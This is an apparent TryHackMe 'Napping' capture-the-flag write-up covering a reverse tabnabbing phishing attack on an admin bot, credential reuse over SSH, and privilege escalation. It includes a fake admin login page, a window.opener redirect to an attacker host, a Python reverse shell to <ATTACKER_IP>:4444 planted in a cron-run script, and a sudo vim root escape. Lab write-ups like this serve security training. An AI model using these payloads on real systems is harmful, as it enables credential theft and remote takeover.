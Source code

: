 ## TryHackMe - Napping

So let's get started and see what ports are open to us!

`nmap -sS -sV -T4 <IP>`

![Screenshot0](./screenshots/0.png)

We see a web server and an SSH server.

I started to enumerate the webserver and look at it.

![Screenshot1](./screenshots/1.png)

We have a login page to something.
If we don't have an account yet, we can create one and get access, which I did.

![Screenshot2](./screenshots/2.png)

We see a <ins>free blog promotions site</ins> and are asked to send links to the site, which are reviewed by the admin.

If we start a `python3 -m http.server` on our machine and submit our link to the site, we see that some traffic arrives and that our link is actually interacted with.

![Screenshot3](./screenshots/3.png)

During the further enumeration with FFUF I also found the admin login of the site under `/admin/login.php`.

![Screenshot4](./screenshots/4.png)

I first tried `SQLi` bypasses at the admin login and at `welcome.php` I tried some `XSS`.
Pretty sure at first I was that we might have to send the admin cookie to us via an XSS payload and some wild exploit attempts followed until frustration.

Well, then take a deep breath, take a short break and look at the circumstances again in peace.

When we submit a link to the application, we see a new embedded text <ins>"Thank you for your submission, you have entered: Here"</ins> and a hyperlink. 

![Screenshot5](./screenshots/5.png)

So far I knew the HTML tag, but what does the attribute "target" and its value do?
After searching for it, I quickly realized that we are dealing with a [widely underestimated vulnerability](https://medium.com/@jitbit/target-blank-the-most-underestimated-vulnerability-ever-96e328301f4c).

The ["Tab Nabbing"](https://owasp.org/www-community/attacks/Reverse_Tabnabbing) by the "_blank" attribute in the target HTML tag!

We are able to send the bot a link which will open in **a new browser tab** and will be in the **foreground**.
Furthermore we have the possibility to replace **the old previous** tab which is in the **background** with any page.

So, based on the challenge description and the challenge name I was now sure that it must be this and I started the setup.

First I copied the admin login page `login.php`.

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="save.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>
```

The second elementary part is the page `index.html`.

```html
<html>
<body>
  <h1>Dummy</h1>
  <script>
   if (window.opener) {
      window.opener.location = "http://<ATTACKER_IP>:8000/login.php";
   }
  </script>
 </body>
</html>
```

This is the page we send to the admin bot and its tab is then in the foreground focus while the background tab switches to our phishing page.

I started a php builtin webserver and passed the admin bot our link.

![Screenshot6](./screenshots/6.png)

For saving the credentials I had written a small `save.php` file, which should write the credentials into a .txt file.
What worked locally for me, did not work with the bot now.
However, we can see that our `login.php` is first called via GET and then another POST call is added.
I repeated the process and got the credenttials from the POST request easy with Wireshark.

![Screenshot7](./screenshots/7.png)

And there are the credentials finally!
I logged in with it now and all there was to see was this.

![Screenshot8](./screenshots/8.png)

Ok, that's probably a dead end....

But daniel fortunately uses the same access for his SSH account!

![Screenshot9](./screenshots/9.png)

# PrivEsc 1 (horizontal)

We now have shell but the flag is not with us but with the colleague `adrian` on the server.
The file `query.py` immediately aroused my interest and I checked our rights and the granted rights to the file.
Since we are in the group `administrators` and its group members have read and write permissions to this file from adrian, this must be our PE vector.

![Screenshot10](./screenshots/10.png)

I only added a short code snippet to the file to test it.

```python
import os
os.system("id >> /tmp/out.txt")
```

And without doing something others there was an output.

![Screenshot11](./screenshots/11.png)

Great!

The file seems to be executed intervallic.
And the content of the output proves our PE vector here.
So now just place a suitable code for a reverse shell, start the reverse listener and receive our new shell as user `adrian`.

I placed the following code and got the reverse shell.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<ATTACKER_IP>",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Still fix stabilize the shell...

- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `CTRL+Z`
- `stty raw -echo && fg`

...and get the first flag!

![Screenshot12](./screenshots/12.png)

# PrivEsc 2 (vertical)

The privilege escalation to root was done quickly.
I looked with `sudo -l` what we can execute with sudo and saw that we can execute `vim` without password input with root rights.

I started vim with the following command:

`sudo -u root /usr/bin/vim`

On [GTFOBins](https://gtfobins.github.io/) we can look up how to hop into a root shell over vim.

![Screenshot13](./screenshots/13.png)

And there it is, the root flag!

![Screenshot14](./screenshots/14.png)

